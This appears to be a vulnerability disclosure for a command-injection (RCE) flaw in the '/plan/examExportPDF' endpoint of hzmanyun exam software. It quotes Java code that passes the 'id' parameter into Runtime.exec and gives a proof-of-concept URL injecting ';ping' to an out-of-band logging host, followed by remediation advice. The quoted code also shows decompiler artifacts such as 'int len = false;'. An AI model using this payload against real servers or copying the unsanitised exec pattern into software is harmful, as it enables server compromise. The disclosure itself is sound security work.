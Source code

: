![image-20250225202220657](./assets/image-20250225202220657.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:
Arbitrary Command Execution in Exam Export PDF Functionality

### Summary:
The code provided contains a critical vulnerability that allows for arbitrary command execution. By manipulating the 'id' parameter in the '/plan/examExportPDF' endpoint, an attacker can inject and execute arbitrary commands on the underlying operating system.

### Affected Endpoint:
`/plan/examExportPDF`

### Vulnerability Type:
Arbitrary Command Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/plan/examExportPDF"})
public void examExportPDF(HttpServletResponse response, @RequestParam("id") String id) {
    try {
       Runtime run = Runtime.getRuntime();
       String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
       String fileName = System.currentTimeMillis() + ".pdf";
       String filePath = rootPath + "/pdffile/" + fileName;
       File dir = new File(rootPath + "/pdffile/");
       if (!dir.exists()) {
          dir.mkdir();
       }

       Process process = run.exec("/opt/source/wkhtmltox/bin/wkhtmltopdf --page-size A3 "
               + CommonConstants.contextPath + "/plan/exam/info?id="
               + id
               + " "
               + filePath);
       process.waitFor();
       response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
       InputStream in = new FileInputStream(new File(filePath));
       int len = false;
       byte[] buf = new byte[1024];
       OutputStream out = response.getOutputStream();

       int len;
       while((len = in.read(buf)) > 0) {
          out.write(buf, 0, len);
       }

       in.close();
    } catch (Exception var13) {
       logger.error("---------------------" + var13);
    }
}
```

### Proof of Concept (PoC):
```
http://uri/plan/examExportPDF?id=1;ping 9e9e4078.log.nat.cloudns.ph.;
```

![image-20250225210555561](./assets/image-20250225210555561.png)

### Impact:

An attacker can exploit this vulnerability to execute arbitrary commands on the server hosting the application. This could lead to data theft, unauthorized access, and potential compromise of the entire system.

### Recommendation:
1. Validate and sanitize user input to prevent command injection attacks.
2. Avoid using user input directly in command execution.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.

### Conclusion:
The code provided is vulnerable to arbitrary command execution due to improper handling of user input. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
N/A

